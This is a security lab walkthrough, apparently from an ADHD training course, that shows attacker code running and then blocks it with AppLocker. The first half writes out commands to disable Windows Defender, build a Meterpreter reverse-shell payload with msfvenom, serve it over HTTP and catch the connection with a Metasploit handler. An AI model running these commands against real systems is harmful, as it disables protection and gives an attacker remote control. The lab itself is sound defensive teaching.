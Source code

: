 
# AppLocker


Applocker Instructions:

Let’s see what happens when we do not have AppLocker running.  We will set up a simple backdoor and have it connect back to the Ubuntu system.  Remember, the goal is not to show how we can bypass EDR and Endpoint products.  It is to create a simple backdoor and have it connect back.

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Thankfully, we have a couple of scripts that greatly simplify this process.  Please make sure both your Windows and your Linux systems are running.

Let’s get started by opening a Terminal as Administrator

![](attachments\Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments\Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](attachments\Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  



Please note that my adaptor is called eth0 and my IP address is 172.26.19.133.   Your IP Address and adapter name may be different.

Please note your IP address for the ADHD Linux system on a piece of paper:



Now, run the following commands to start a simple backdoor and backdoor listener: 

$ `sudo su -`
Please note, the adhd password is adhd.

/#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

/#`cd /tmp`

/#`ls -l TrustMe.exe`

/#`python -m SimpleHTTPServer 8000 &`

It should look like this:

![](attachments\Clipboard_2020-07-09-15-52-24.png)

Now, let's start the Metasploit Handler.  You will have to hit Enter to get your prompt back.


root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`
msf5 > `use exploit/multi/handler`
msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > `set LHOST 172.26.19.133`
Remember, your IP will be different!
msf5 exploit(multi/handler) > `exploit`

It should look like this:

![](attachments\Clipboard_2020-06-12-12-46-10.png)


Now, let’s surf to your Linux system, download the malware and run it!

Simply open an edge browser to `http://<YOUR LINUX IP>:8000`

![](attachments\Clipboard_2020-07-09-15-54-29.png)

Remember! Your IP will be different!!

Now, let's download and run the TrustMe.exe file!

![](attachments\Clipboard_2020-07-09-15-55-05.png)
You should simply click and run the program from the browser.

If you get an alert, just select run the application.

Back at your Ubuntu prompt, you should have a metasploit session!

![](attachments\Clipboard_2020-06-12-12-55-11.png)

If you get a Windows Defender error when trying to launch this program, simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.


Now, let’s stop this from happening!

First, let’s configure AppLocker.  To do this we will need to access the Local Security Policy on your Windows System.

Simply press the Windows key (lower left hand of your keyboard, looks like a Windows Logo)  then type Local Security.  It should bring up a menu like the one below, please select Local Security Policy.

![](attachments\Clipboard_2020-06-12-12-55-55.png)


Next, we will need to configure AppLocker.  To do this, please go to Security Settings > Application Control Policies and  then AppLocker.


![](attachments\Clipboard_2020-06-12-12-57-02.png)



In the right hand pane, you will see there are 0 Rules enforced for all policies.  We will add in the default rules.  We will choose the defaults because we are far less likely to brick a system.

![](attachments\Clipboard_2020-06-12-12-58-38.png)


Please select each of the above Rule groups (Executable, Windows Installer, Script and Packaged) and for each one, right click in the area that says “There are no items to show in this view.” and then select “Create Default Rules”


![](attachments\Clipboard_2020-06-12-12-59-57.png)

This should generate a subset of rules for each group.  It should look similar to how it does below: 


![](attachments\Clipboard_2020-06-12-13-00-24.png)

Next, we need to enforce the rules:


To do this you will need to select ApLocker on the far left pane.  Then, you will need to select Configure rule enforcement.  This will open a pop-up, you will need to check Configured for each set of rules

![](attachments\Clipboard_2020-06-23-10-45-07.png)



Now, we will need to start the Application Identity service.  This is done through pressing the Windows key and typing Services.  This will bring up the Services App.  Please select that and then double-click “Application Identity.”

![](attachments\Clipboard_2020-06-12-13-00-54.png)

Once the Application Identity Properties dialog is open, please press the Start button.  This will start the service.

![](attachments\Clipboard_2020-06-12-13-01-27.png)

Next, open a command prompt and run gpupdate to force the policy change

C:\ `gpupdate /force`

Next, log out as ADHD and log back in as allowlist.  

You can do this easily by selecting the Windows icon and then the little wite user icon:

![](attachments\Clipboard_2020-06-15-09-00-39.png)

The password is ADHD.

![](attachments\Clipboard_2020-06-15-08-46-49.png)



Now, navigate to the C:>\Tools directory with Windows Explorer and try to run some of the .exe files.

![](attachments\Clipboard_2020-06-15-08-48-09.png)

You will see that most of the .exe files will generate an error.




Now, let's surf to your Linux system, download the malware and try to run it again.








You should get an error.

To finish this lab, simply restart your class VM and log in as ADHD.






